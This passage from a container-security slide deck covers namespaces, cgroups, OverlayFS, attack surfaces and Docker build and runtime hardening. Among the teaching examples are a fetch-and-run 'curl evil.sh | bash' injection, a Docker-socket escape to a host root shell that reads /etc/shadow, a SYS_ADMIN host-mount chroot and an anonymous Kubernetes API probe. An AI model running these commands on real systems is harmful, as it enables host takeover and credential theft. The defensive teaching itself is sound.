

</div>

<div class="col">


- Isolates network resources like interfaces, IP addresses, ports, and routing tables
- Containers can have separate network stacks

A network namespace allows each process to see an entirely different set of networking interfaces. Even the loopback interface is different for each network namespace.

```bash
ip a
sudo unshare --net /bin/bash
ip a
```

</div>
</div>

---

<!-- _class: small -->

# mount namespace

<div class="columns">
<div class="col">



</div>

<div class="col">


- Isolates filesystem mount points
- Each container can have its own view of the filesystem

Linux maintains a data structure for all the mountpoints of the system. With namespaces, this data structure can be cloned so that processes under different namespaces can change the mountpoints without affecting each other.

```bash
sudo unshare --fork --pid /bin/bash
ps   # still sees host processes
sudo unshare --fork --pid --mount-proc /bin/bash
ps   # only sees processes in this namespace
```

</div>
</div>  

---

<!-- _class: small -->

# IPC namespace




 
- Isolates inter-process communication resources (shared memory, semaphores, message queues)
- Processes in one IPC namespace cannot see or interact with IPC objects in another

The IPC namespace provides isolation for process communication mechanisms such as semaphores, message queues, shared memory segments, etc. Normally when a process is forked it inherits all the IPC’s which were opened by its parent. The processes inside an IPC namespace can't see or interact with the IPC resources of the upper namespace.


---

# Useful namespaces commands

- **unshare** - run a program in a new namespace, isolating it from the parent process
- **lsns** - lists the current namespaces on the system
- **ip netns** - is part of the iproute2 suite and is used to manage network namespaces
- **nsenter** - enter an existing namespace of another process

---

<!-- _class: small -->

# cgroups

<div class="columns">
<div class="col">



</div>

<div class="col">

A control group (cgroup) is a Linux kernel feature that limits, accounts for, and isolates the resource usage (CPU, memory, disk I/O, network) of a collection of processes.

Cgroups provide:

- **Resource limits** -- limit how much of a resource a process can use
- **Prioritization** -- control resource usage compared to other cgroups
- **Accounting** -- resource limits are monitored and reported
- **Control** -- change the status (frozen, stopped, restarted) of all processes in a cgroup

</div>
</div>

---

# cgroups

Check version:
```bash
mount -l | grep cgroup
```

Create a new cgroup:
```bash
mkdir /sys/fs/cgroup/my_cgroup
ls /sys/fs/cgroup/my_cgroup
echo "100M" | sudo tee /sys/fs/cgroup/my_cgroup/memory.max
```

---

<!-- _class: small -->

# cgroups v1 vs v2

Most modern distributions now use **cgroups v2** (unified hierarchy). Key differences:

| | cgroups v1 | cgroups v2 |
|---|---|---|
| **Hierarchy** | Multiple hierarchies (one per controller) | Single unified hierarchy |
| **Resource control** | Controllers mounted separately | All controllers in one tree |
| **Delegation** | Complex, error-prone | Safe delegation to unprivileged users |
| **Pressure info** | Not available | PSI (Pressure Stall Information) support |
| **Rootless containers** | Limited support | Full support |

```bash
# Check which version is active:
stat -fc %T /sys/fs/cgroup/
# cgroup2fs = v2, tmpfs = v1
```

> cgroups v2 is required for rootless containers and is the default in recent kernels (5.8+), Ubuntu 21.10+, Fedora 31+, Debian 11+.

---

<!-- _class: small -->

# OverlayFS and Docker's Storage Driver

Docker uses **overlay2** as its default storage driver. It is built on the Linux kernel's **OverlayFS** — a **union filesystem** that merges multiple directory layers into a single unified view.

**How it works:**

```
┌─────────────────────────────┐  ← What the container sees
│       Merged (union view)   │     (reads from upper first,
│                             │      falls back to lower)
├─────────────────────────────┤
│   Upper (container layer)   │  ← Read-write: new/modified files go here
├─────────────────────────────┤
│   Lower (image layers)      │  ← Read-only: base image + each Dockerfile step
│   ┌───────────────────────┐ │
│   │ Layer 3: COPY app.py  │ │
│   │ Layer 2: RUN apt ...  │ │
│   │ Layer 1: FROM ubuntu  │ │
│   └───────────────────────┘ │
└─────────────────────────────┘
```

- **Lower layers** are read-only and shared across containers using the same image
- **Upper layer** is per-container — writes use **copy-on-write** (CoW): the file is copied up from a lower layer, then modified
- **Deleting** a file creates a **whiteout** marker in the upper layer to hide the lower file

---

<!-- _class: small -->

# OverlayFS: Why It Matters

```bash
# Check Docker's storage driver
docker info | grep "Storage Driver"

# See the layers of an image
docker inspect ubuntu --format '{{json .RootFS.Layers}}' | python3 -m json.tool

# See overlay mounts of a running container (from inside)
docker exec <container> cat /proc/1/mountinfo | grep overlay
```

**Security implications:**

| Concern | Details |
|---|---|
| **Layer leaking** | Secrets added in early layers persist even if deleted later — each layer is stored independently |
| **Shared layers** | All containers from the same image share lower layers — efficient but a compromised image affects all |
| **Copy-on-write overhead** | First write to a large file copies the entire file to the upper layer |
| **Whiteout files** | Deleted files are hidden, not truly removed — forensic tools can still find them in lower layers |

> Every `RUN`, `COPY`, and `ADD` instruction in a Dockerfile creates a new layer. Minimize layers and never put secrets in any layer.

---

# Linux Containers

<div class="columns">
<div class="col">



</div>

<div class="col">

what is different is each linux distro?
</div>
</div>

---

<!-- _class: small -->
# Linux vs Windows





> runhcs is a fork of runc

---

# Linux containers on Windows

Since containers share a kernel with the host, running Linux containers directly on Windows isn't possible -- virtualization is required.

**Hyper-V backend** (Docker Desktop < 2.3, 2020):
- Used a **Moby VM** (LinuxKit-based Hyper-V VM) as a Linux Container Host
- Docker Client on Windows communicated with Docker Daemon inside the Moby VM

**WSL 2 backend** (Docker Desktop 2.3+, default since 2020):
- Uses a lightweight **WSL 2 utility VM** instead of a full Hyper-V VM
- Better performance, faster startup, lower memory usage
- Docker Engine runs directly inside the WSL 2 distribution

---

# Security Challenges in Containers vs. VMs

| | Containers | VMs |
|---|---|---|
| **Isolation** | Weaker. Shared host kernel | Stronger. Own OS and kernel |
| **Attack Surface** | Larger. Runtime, images, registries, orchestrators | Smaller. Hypervisor and guest OS |
| **Kernel Sharing** | All share host kernel | Separate kernels |
| **Image Security** | Relies on trusted base images | Less exposure to untrusted images |
| **Configuration** | Complex, prone to misconfig | More straightforward |
| **Resource Isolation** | cgroups, can be bypassed | Harder to escape |
| **Runtime Security** | Difficult to monitor ephemeral workloads | Easier to monitor |

---

<!-- _class: title -->

# Attack Surface

---
<!-- _class: small -->

# Attack surface



---

<!-- _class: medium -->

# Attack Surface Overview

Containers introduce multiple layers where security can fail:

| Attack Layer | Examples | Risk Level |
|---|---|---|
| **Network** | Exposed ports, missing network policies, unencrypted traffic | High |
| **Host** | Misconfigured Docker daemon, unpatched kernel, weak file perms | Critical |
| **Container Runtime** | `--privileged`, excessive capabilities, Docker socket mount | Critical |
| **Images** | Vulnerable base images, embedded secrets, unverified registries | High |
| **Orchestration** | Open Kubernetes API, permissive RBAC, no network policies | High |
| **Supply Chain** | Compromised CI/CD, tampered base images, dependency confusion | Medium-High |
| **Application** | RCE vulnerabilities, SSRF, code injection | High |

A single misconfiguration at **any** layer can cascade into full host compromise. Defense in depth means hardening **every** layer.

---

# Attack via Network

**Attack Vector:** Malicious Network Traffic -- Containers may be exposed to untrusted networks unintentionally.

**Example:**
- A containerized app runs with `-p 80:80` and is unintentionally exposed to the internet. If the app has a known RCE vulnerability, an attacker can directly access it.
- Scanning for open ports and exploiting misconfigurations to gain access to worker nodes.

**Mitigation:**
Use network policies, only expose needed ports, use firewalls and reverse proxies.

---

# Attack via Host Configuration

**Attack Vector:** Misconfigured Host System

**Examples:**
- Discovering insecure file permissions to access sensitive files, such as container configuration files.
- Running a container with `--privileged` grants it almost full access to the host.

**Mitigation:**
Never use `--privileged` unless absolutely necessary. Use seccomp, AppArmor, and drop capabilities.

---

# Attack via Host Vulnerabilities

**Attack Vector:** Unpatched Host Vulnerabilities

**Example:**
- Identifying and exploiting unpatched kernel vulnerabilities to gain root privileges on worker nodes.
- An unpatched kernel vulnerability (like Dirty COW) can be exploited from a container to escalate privileges to host root.

**Mitigation:**
Keep the host OS and kernel up to date. Use security modules like SELinux/AppArmor.

---

<!-- _class: medium -->

# Attack via Host Application Vulnerabilities

**Attack Vector:** Unpatched Host Application Vulnerabilities

**Examples:**
- **CVE-2019-5736** (runc): A malicious container could overwrite the host `runc` binary during `docker exec`, gaining root on the host
- **CVE-2024-21626** (Leaky Vessels): runc process leak allowed container escape via `/proc/self/fd/` to access host filesystem
- Outdated Docker daemon versions with known privilege escalation bugs

**Mitigation:**
- Keep Docker Engine, containerd, and runc updated
- Subscribe to security advisories (Docker, NIST NVD)
- Use container-optimized OS distributions (Bottlerocket, Flatcar) that auto-update

---

<!-- _class: medium -->

# Attack via Container Orchestration Vulnerabilities

**Attack Vector:** Misconfigured Container Orchestration

**Examples:**
- Kubernetes API server exposed without authentication → attacker creates privileged pods
- Overly permissive RBAC: `cluster-admin` role bound to default service accounts
- Etcd (K8s datastore) exposed without TLS → secrets readable in plaintext
- Missing `NetworkPolicy` → any pod can talk to any other pod

```bash
# Check for anonymous access to K8s API
curl -k https://<k8s-api>:6443/api/v1/pods
```

**Mitigation:**
- Enable RBAC with least-privilege roles. Never grant `cluster-admin` by default
- Use NetworkPolicies to restrict pod-to-pod traffic
- Enable audit logging and mutual TLS on all components

---

<!-- _class: medium -->

# Attack via Compromised Container Images

**Attack Vector:** Supply Chain Compromise

**Examples:**
- Pulling `FROM` an unverified public image that contains a cryptominer or backdoor
- Typosquatting: `pythonn:3.11` (extra n) instead of `python:3.11`
- CI/CD pipeline compromised → attacker injects `RUN curl evil.sh | bash` into Dockerfiles
- Base image updated upstream with a vulnerability → all downstream images affected

**Mitigation:**
- Use **Docker Content Trust** (`DOCKER_CONTENT_TRUST=1`) to verify image signatures
- Pin images by **digest** not just tag: `python@sha256:abc123...`
- Scan images in CI/CD with Trivy/Grype **before** deployment
- Use private registries with access control and vulnerability scanning

---

<!-- _class: small -->

# Attack via Container Vulnerabilities and Misconfigs

**Attack Vector:** Exploiting Vulnerable or Misconfigured Containers

**Examples:**
- Running as root inside the container → easier to exploit kernel vulnerabilities
- Using an old base image with known CVEs (e.g., `debian:stretch` with hundreds of CVEs)
- Hardcoded credentials in environment variables or baked into image layers
- Writable root filesystem → attacker can modify binaries, install tools

```bash
# Check if container runs as root
docker exec <container> id
# uid=0(root) gid=0(root)  ← BAD
```

**Mitigation:**
- Always use `USER nonroot` in Dockerfiles
- Use `--read-only` filesystem with `tmpfs` for temp directories
- Scan images regularly and rebuild with updated base images
- Never hardcode secrets — use Docker secrets or external vaults

---

<!-- _class: small -->

# Attack via Container Escape

**Attack Vector:** Attacker Gains Privileged Access to Container

**Description:** Breaking out of the container's isolation and gaining access to the host system.

**Example:**
- Exploiting vulnerabilities in the container runtime or abusing host system misconfigurations
- Using a misconfigured capability like `CAP_SYS_ADMIN` or a kernel exploit to mount host directories

```bash
docker run --cap-add=SYS_ADMIN -v /:/mnt alpine chroot /mnt
```

**Mitigation:**
Use runtime security (gVisor, Kata Containers), drop unnecessary capabilities, use seccomp and AppArmor.

---

<!-- _class: small -->

# Attack via Docker Socket

**Attack Vector:** Mounting `/var/run/docker.sock` into a container

The Docker socket is the API endpoint for the Docker daemon. Mounting it into a container gives **full control of Docker on the host** -- equivalent to root access.

```bash
# Mount the socket into a container
docker run -v /var/run/docker.sock:/var/run/docker.sock -it docker sh

# From inside: create a privileged container that mounts the host root
docker run -v /:/host -it alpine chroot /host

# You now have a root shell on the host
cat /etc/shadow
```

**Why it matters:** CI/CD tools, monitoring agents, and deployment tools often request socket access. Granting it = granting root.

**Mitigation:** Avoid socket mounts. If required: use `:ro`, restrict capabilities, or use alternatives like Sysbox.

---

<!-- _class: small -->

# Lab: Attacker's Mindset with amicontained

**amicontained** reveals what capabilities, syscalls, and security features are available inside a container -- see the world through an attacker's eyes.

```bash
# Default container -- see what's exposed
docker run --rm jess/amicontained amicontained

# Privileged container -- everything is open
docker run --rm --privileged jess/amicontained amicontained

# Hardened container -- minimal attack surface
docker run --rm --cap-drop=ALL --security-opt=no-new-privileges \
  --security-opt seccomp=default.json \
  jess/amicontained amicontained
```

Compare the output across all three: capabilities, seccomp status, namespaces, and blocked syscalls.

---

<!-- _class: small -->
# Container security spans the full lifecycle



**Build Phase** - risks: Malicious Images, Vulnerabilities, Compliance Risks

**Pipeline** - Image Analysis, Scan Registries, Enforce Compliance, Scan Malware, Validate Deployments

**Run Phase** - Detect Drift and Threats, Monitor and Enforce Compliance, Detect and Stop Attacks, Block Vulnerabilities

---

<!-- _class: title -->

# Securing the Container Build Process

---

<!-- _class: small -->
# Rules

- Use Minimal Base Images
- Pin Image Versions
- Run as Non-Root User
- Use Multi-Stage Builds
- Scan Images for Vulnerabilities
- Use .dockerignore File
- Avoid Hardcoding Secrets
- Set Permissions on Files
- Digitally Sign Images
- Enable read-only filesystem
- Least privilege

---

# Use Minimal Base Images

Reduces attack surface and image size.

Instead of:
```dockerfile
FROM ubuntu:latest
```

Use:
```dockerfile
FROM python:3.11-alpine
```

---

<!-- _class: small -->

# The `scratch` Image

`scratch` is a special empty image — it has **no filesystem, no shell, no libraries, nothing**. It doesn't even count as a layer.

To run anything on `scratch`, your binary must be **statically compiled** — all libraries linked into the executable itself, since there is no libc or any shared library in the image.

```c
// hello.c
#include <stdio.h>
int main() { printf("Hello from scratch!\n"); return 0; }
```

```bash
gcc -o hello -static hello.c
```

```dockerfile
FROM scratch
ADD hello /
CMD ["/hello"]
```

**Why `-static`?** Normally, `gcc` produces a **dynamically linked** binary that depends on shared libraries (`libc.so`, `ld-linux.so`, etc.) at runtime. Without `-static`, the binary will fail with `no such file or directory` because `scratch` has none of these libraries. Static compilation embeds everything into a single self-contained binary.

> `scratch` produces the **smallest possible images** — ideal for Go, Rust, or C programs.

---

# Pin Image Versions

Avoids pulling updated images with unknown changes or vulnerabilities.

Use:
```dockerfile
FROM node:18.16.1-alpine
```

Instead of:
```dockerfile
FROM node
```

Latest image can have vulnerabilities. Avoid Using `latest` Tag -- it can lead to inconsistent or insecure builds.

---

<!-- _class: medium -->

# Run as Non-Root User

Limits the damage if the container is compromised.

Bad:
```dockerfile
FROM node:18
WORKDIR /app
COPY . .
CMD ["node", "server.js"]  # runs as root user
```

Good:
```dockerfile
FROM node:18
WORKDIR /app
RUN adduser -D myuser
USER myuser
COPY . .
CMD ["node", "server.js"]
```

---

# Use Multi-Stage Builds

Keeps final image clean by excluding build tools and secrets.

```dockerfile
### Stage 1: Build the frontend ###
FROM node:18.17.0-alpine AS builder
WORKDIR /app
COPY package*.json ./
RUN npm install
COPY . .
RUN npm run build

### Stage 2: Serve with NGINX ###
FROM nginx:1.25-alpine
COPY --from=builder /app/build /usr/share/nginx/html
EXPOSE 80
CMD ["nginx", "-g", "daemon off;"]
```

---

# Scan Images for Vulnerabilities

Detects known CVEs in images.

Tools:
- **Grype** - https://github.com/anchore/grype
- **Trivy** - https://github.com/aquasecurity/trivy
- **docker scout** - https://docs.docker.com/scout/
- **Snyk** - https://docs.snyk.io/scan-with-snyk/snyk-container/scan-container-images

---

<!-- _class: medium -->
# SBOM (Software Bill of Materials)

Image scanning detects **known CVEs**, but an SBOM tracks **every dependency** inside the container -- even those without a known vulnerability yet.

- An SBOM is a complete inventory of all packages, libraries, and versions in an image
- Essential for **incident response**: when a new CVE drops, you can instantly check which images are affected
- Required by regulations (US Executive Order 14028, EU CRA)

Tools:
- **Syft** -- generates SBOMs from container images: `syft <image>`
- **Trivy** -- can generate SBOMs: `trivy image --format spdx-json <image>`
- **docker sbom** -- `docker sbom <image>`

Formats: **SPDX**, **CycloneDX**


[Prismor SBOM Visualization tool](https://www.prismor.dev/sbom-visualizer)

---

<!-- _class: xsmall -->
# Image Scanning vs SBOM

While both are essential for securing the build process, they serve very different roles.

**SBOM** is a **manifest** (the "ingredients list") — a structured record of every library, package version, and dependency inside your image, even those currently considered safe.

**Image Scanning** is an **audit** (checking for "known poisons") — comparing image contents against a database of known vulnerabilities (CVEs).

**Scanning is point-in-time:** a scan tells you if your image is vulnerable *today*. If a new zero-day is discovered tomorrow, yesterday's scan is obsolete.

**SBOM is persistent & proactive:** when a new vulnerability (like Log4j) is announced, you don't need to re-scan thousands of images — you query your SBOM database to find which images contain that specific library version.

| Feature | Image Scanning | SBOM |
|---|---|---|
| **Goal** | Find known vulnerabilities (CVEs) | Provide a complete inventory of components |
| **Output** | Report of high/medium/low risks | A file (SPDX / CycloneDX) listing all parts |
| **When to use** | During CI/CD and at runtime | Created at build time, stored for lifecycle |
| **Action** | "Patch this specific library" | "I know exactly what is inside this image" |
| **Key tools** | Trivy, Grype, Snyk, Docker Scout | Syft, Tern, Microsoft sbom-tool |

> **A clean scan does NOT mean an image is "secure."** It only means no *currently known* CVEs were found. An SBOM is the only way to perform rapid incident response when tomorrow's zero-day drops (like Log4Shell) -- you query the SBOM database instead of re-scanning every image. Use **both**: scanning catches today's known threats; SBOM prepares you for tomorrow's.

---

<!-- _class: small -->
# Secure Build Chain of Trust

A modern secure build pipeline combines all the tools into a verifiable **chain of trust**:



| Step | Tool | Purpose |
|---|---|---|
| **Build** | `docker build` | Create the container image |
| **Generate SBOM** | `syft`, `trivy --format spdx-json` | Record every component and version |
| **Scan for CVEs** | `trivy`, `grype` | Detect known vulnerabilities — gate the pipeline |
| **Sign** | `cosign sign` | Prove the image and SBOM haven't been tampered with |

> In high-security environments, deployment is **blocked** unless an image has a valid signature and a clean scan. This is the foundation of **SLSA** (Supply-chain Levels for Software Artifacts).

---

<!-- _class: medium -->
# Use .dockerignore File

Prevents sensitive files (e.g., .env, .git) from being added to images.

```
# Ignore node_modules
node_modules

# Ignore log files
*.log

# Ignore sensitive environment variables
.env

# Ignore Docker-related files
Dockerfile*
.dockerignore
.git
/test/
*.spec.js
*.tmp
```

---

# Avoid Hardcoding Secrets

Secrets can get baked into layers and be exposed.

Bad:
```dockerfile
ENV DB_PASSWORD=supersecret
```

Good:
- Use runtime secret management (e.g., Docker secrets, Kubernetes secrets)
- Inject at runtime via environment variables

---

<!-- _class: medium -->

# External Secret Stores

For production, use a dedicated secret management system instead of environment variables or Kubernetes Secrets (which are only base64-encoded).

| Tool | Description |
|---|---|
| **HashiCorp Vault** | Dynamic secrets, leasing, encryption-as-a-service |
| **AWS Secrets Manager** | Managed secrets with automatic rotation |
| **Azure Key Vault** | Secrets, keys, and certificates for Azure workloads |
| **GCP Secret Manager** | Managed secrets for Google Cloud |

Kubernetes integration:
- **External Secrets Operator** -- syncs secrets from external stores into K8s Secrets
- **CSI Secret Store Driver** -- mounts secrets as volumes from Vault, Azure, AWS, GCP

---

<!-- _class: xsmall -->

# How Secrets Reach the Application

The app never talks to Vault directly -- a **sidecar** or **init container** handles authentication and secret delivery.


**Two common patterns:**
- **Init Container** -- fetches secrets once at startup, writes to a shared `emptyDir` volume
- **Sidecar** -- runs alongside the app, continuously refreshes secrets (handles rotation)

---

# Set Permissions on Files

Prevents unintended access.

```dockerfile
COPY config.yaml /etc/myapp/config.yaml
RUN chmod 640 /etc/myapp/config.yaml
```

---

# Digitally Sign Images

Ensures image integrity and authenticity.

Tools:
- **Cosign** - https://github.com/sigstore/cosign
- **Content trust in Docker** - https://docs.docker.com/engine/security/trust/

```bash
cosign sign myapp:1.0
cosign verify myapp:1.0
```

---

<!-- _class: medium -->

# Supply Chain Security (SLSA)

Signing images is one piece -- **Supply-chain Levels for Software Artifacts** (SLSA) provides a framework for end-to-end build integrity.

**SLSA Levels:**
- **Level 1** -- Documentation of the build process
- **Level 2** -- Tamper resistance of the build service (signed provenance)
- **Level 3** -- Hardened build platform (isolated, ephemeral builders)

**Key practices:**
- Secure CI/CD runners -- compromised build pipelines are a major attack vector
- Use ephemeral build environments (no persistent state between builds)
- Generate and verify **provenance attestations** with Cosign + in-toto
- Pin dependencies by digest, not tag

https://slsa.dev

---

<!-- _class: xsmall -->

# SLSA: What Does Provenance Look Like?

A provenance attestation is a signed JSON document that records **who** built the image, **how**, and **from what source** -- it proves the image wasn't tampered with after the build.

```json
{
  "_type": "https://in-toto.io/Statement/v0.1",
  "subject": [
    { "name": "myapp", "digest": { "sha256": "abc123..." } }
  ],
  "predicateType": "https://slsa.dev/provenance/v1",
  "predicate": {
    "buildDefinition": {
      "buildType": "https://github.com/actions/runner",
      "externalParameters": {
        "source": "git+https://github.com/org/myapp@refs/heads/main",
        "builderImage": "docker.io/library/golang:1.22"
      }
    },
    "runDetails": {
      "builder": { "id": "https://github.com/actions/runner/v2" },
      "metadata": { "buildStartedOn": "2026-04-10T14:30:00Z" }
    }
  }
}
```

```bash
# Generate and verify provenance with Cosign
cosign attest --predicate provenance.json --type slsaprovenance myapp:1.0
cosign verify-attestation --type slsaprovenance myapp:1.0
```

---

# Enable read-only filesystem

Disallow writes in filesystem:

```bash
docker run --read-only --tmpfs /tmp mysecureimage
```

---

# Least privilege

- Use `--cap-drop=ALL` to remove unnecessary capabilities
- Avoid `--privileged` flag

```bash
docker run --cap-drop=ALL --cap-add=NET_BIND_SERVICE --read-only mysecureimage
```

---

<!-- _class: xxsmall -->

# Hardening Docker Compose


Apply all runtime hardening in `docker-compose.yaml` -- treat it as a security policy:

```yaml
services:
  web:
    image: nginx:alpine
    cap_drop:
      - ALL
    cap_add:
      - NET_BIND_SERVICE
    read_only: true
    tmpfs:
      - /tmp
      - /var/cache/nginx
    security_opt:
      - no-new-privileges:true
    deploy:
      resources:
        limits:
          memory: 128M
          cpus: "0.5"
    pids_limit: 50
```

| Setting | Default | Hardened |
|---|---|---|
| Capabilities | ~14 | Only what's needed |
| Filesystem | Read-write | Read-only + tmpfs |
| Memory | Unlimited | Capped |
| PID limit | Unlimited | Capped |
| Privilege escalation | Allowed | Blocked |

---

<!-- _class: title -->

# Securing the Container Runtime Process

---

# Seccomp

**Secure Computing Mode** (seccomp), a crucial **Linux kernel component** empowers administrators and developers to **restrict the system calls** available to a process. It provides a secure, controlled environment for applications, limiting their interaction with the kernel to only authorized system calls.

Seccomp functions as a **system call filter**, acting as a gatekeeper between applications and the kernel.

By limiting the syscalls a process can use, you reduce the attack surface -- which is critical for sandboxing, containers, and running untrusted code.

---
<!-- _class: small -->

# Seccomp modes

<div class="columns">
<div class="col">

